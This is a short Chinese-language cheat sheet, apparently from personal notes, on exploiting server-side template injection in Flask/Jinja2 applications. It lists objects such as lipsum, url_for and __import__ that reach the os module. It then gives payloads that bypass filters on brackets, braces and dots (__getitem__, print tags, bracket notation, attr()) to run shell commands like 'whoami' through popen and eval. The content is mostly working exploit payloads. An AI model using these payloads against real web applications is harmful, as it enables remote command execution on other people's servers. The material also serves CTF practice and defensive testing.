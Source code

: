 ```
__import__   ： 动态加载类和函数，用于导入模块，经常用于导入os模块（例如__import__('os').popen('ls').read()）

url_for ：flask的方法，可以用于得到__builtins__

lipsum ：flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}

config：当前application的所有配置。

popen():执行一个 shell 以运行命令来开启一个进程

request.args.key：获取get传入的key的值

```

#### 过滤绕过

##### 绕过[]

```
1、使用__getitem__绕过
{{().__class__.__bases__[0]}}
可替换为
{{().__class__.__bases__.__getitem__(0)}}
```

##### 绕过{{}}

```
{%print("".__class__)%}
```

本来并无回显，但是加个print就ok了

##### 绕过点

###### 使用中括号绕过点

```
{{().__class__}} 
可替换为:
{{()["__class__"]}}

举例：
{{()['__class__']['__base__']['__subclasses__']()[433]['__init__']['__globals__']['popen']('whoami')['read']()}}

```

###### 使用attr()函数绕过点

```
attr()函数是Python内置函数之一，用于获取对象的属性值或设置属性值。它可以用于任何具有属性的对象，例如类实例、模块、函数等。

{{().__class__}} 
可替换为：
{{()|attr("__class__")}}
{{getattr('',"__class__")}}

举例：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```
